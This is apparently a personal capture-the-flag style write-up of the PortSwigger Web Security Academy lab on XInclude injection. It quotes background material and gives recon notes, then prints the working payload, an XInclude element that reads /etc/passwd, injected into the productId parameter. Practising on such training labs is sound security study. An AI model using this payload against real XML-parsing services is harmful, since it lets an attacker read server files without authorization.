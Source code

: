 ```yaml
---
title: 'Lab: Exploiting `XInclude` to retrieve files'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/XXE"
---
```


# Lab: Exploiting `XInclude` to retrieve files
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.
Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack. 
* Goal:  To solve the lab, inject an `XInclude` statement to retrieve the contents of the /etc/passwd file. 
* Hint: By default, `XInclude` will try to parse the included document as XML. Since /etc/passwd isn't valid XML, you will need to add an extra attribute to the `XInclude` directive to change this behavior. 

## Background
> XInclude is a part of the XML specification that allows an XML document to be built from sub documents You can place an XInclude attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server side XML document
> 
> To perform an XInclude attack you need to reference the XInclude namespace and provide the path to the file that you wish to include
>
>For example:
>    ```xml!
>    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
>    <xi:include parse="text" href="file:///etc/passwd"/></foo>
>    ```

---
[淺析xml之xinclude & xslt](https://lonelysec.com/%E6%B7%BA%E6%9E%90xml%E4%B9%8Bxinclude-xslt/)
>xinclude可以理解為xml include熟悉編譯腳本語言的一定熟知，像php的include，python和java的import都是可以進行檔案包含的。

## Recon
In this lab, the package did not contain the xml format data so I can't control DTD to launch a classic XXE.
Therefore, we can use xinclude?
![](https://i.imgur.com/X4AUgv9.png)

## Exp
Just use the payload at background section and replace `productID`'s data to exploited payload.
$\to$
```xml!
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```
:::spoiler Success Screenshot
![](https://i.imgur.com/k87rQpi.png)

---
![](https://i.imgur.com/J8W0JPF.png)

:::

## Reference